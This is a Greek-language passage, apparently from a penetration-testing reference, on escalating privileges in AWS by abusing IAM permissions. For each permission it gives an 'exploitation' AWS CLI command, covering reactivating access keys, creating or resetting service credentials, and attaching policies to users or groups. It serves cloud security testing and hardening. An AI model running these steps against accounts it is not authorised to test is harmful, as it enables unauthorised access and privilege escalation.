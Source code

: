 ### **`iam:UpdateAccessKey`**

Επιτρέπει την ενεργοποίηση ενός απενεργοποιημένου κλειδιού πρόσβασης, ενδεχομένως οδηγώντας σε μη εξουσιοδοτημένη πρόσβαση αν ο επιτιθέμενος κατέχει το απενεργοποιημένο κλειδί.

**Εκμετάλλευση:**

{% code overflow="wrap" %}
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
{% endcode %}

**Επίπτωση:** Άμεση κλιμάκωση προνομίων επανενεργοποιώντας τα κλειδιά πρόσβασης.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

Επιτρέπει τη δημιουργία ή την επαναφορά διαπιστευτηρίων για συγκεκριμένες υπηρεσίες AWS (π.χ., CodeCommit, Amazon Keyspaces), κληρονομώντας τα δικαιώματα του σχετικού χρήστη.

**Εκμετάλλευση για Δημιουργία:**

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
{% endcode %}

**Εκμετάλλευση για Επαναφορά:**

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
{% endcode %}

**Επίπτωση:** Άμεση κλιμάκωση προνομίων μέσα στις άδειες υπηρεσίας του χρήστη.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

Επιτρέπει την προσθήκη πολιτικών σε χρήστες ή ομάδες, κλιμακώνοντας άμεσα τα προνόμια κληρονομώντας τις άδειες της προσαρτημένης πολιτικής.

**Εκμετάλλευση για Χρήστη:**
```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```
**Εκμετάλλευση για Ομάδα:**
```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων σε οτιδήποτε επιτρέπει η πολιτική.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**
